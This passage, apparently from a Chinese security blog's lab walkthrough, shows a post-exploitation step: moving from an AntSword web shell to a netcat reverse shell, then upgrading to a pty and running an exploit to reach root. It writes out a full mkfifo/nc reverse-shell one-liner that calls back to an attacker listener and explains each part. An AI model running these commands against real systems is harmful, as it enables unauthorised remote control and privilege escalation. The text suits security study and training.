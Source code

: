 ![image-20211118155624865](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118155624865.png)

似乎在蚁剑的shell内不能正常运行，尝试使用nc的shell

![image-20211118160045951](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118160045951.png)

不支持-e参数（可使用串联方法），这里为了拓展攻击方法的多样性，使用命令

kali:

```
nc -nvlp 4444
```

![image-20211122111610268](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122111610268.png)

蚁剑shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.4 4444 >/tmp/f
```

>rm /tmp/f 删除该文件（以免跟后面定义的 管道符 冲突）
>
>mkfifo /tmp/f 这是创建自定义有名管道符。管道符的名称是 /tmp/f （用于进程间的通讯， 如 ls > /tmp/f ，cat /tmp/f ,连通两个进程之间的通讯)
>
>cat /tmp/f 取出管道符中的内容
>
>|/bin/sh -i 2>&1 将前面取出的内容作为输入，输入给 /bin/sh，再将bash的标准错误输出 也作为标准输入 （2 >&1）给bash 然后再将bash的输出，传给nc 远程，再将nc 传来的数据，写入 管道符 /tmp/f 。最后首尾接通了。

![image-20211122112048252](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122112048252.png)

执行后成功上线

![image-20211122112120594](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122112120594.png)

![image-20211122112256382](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122112256382.png)



```
python -c "import pty; pty.spawn('/bin/bash')"
```

![image-20211122113004129](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122113004129.png)

```
./exp
```

![image-20211122113224509](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211122113224509.png)

成功提权到root权限

### 回到起点
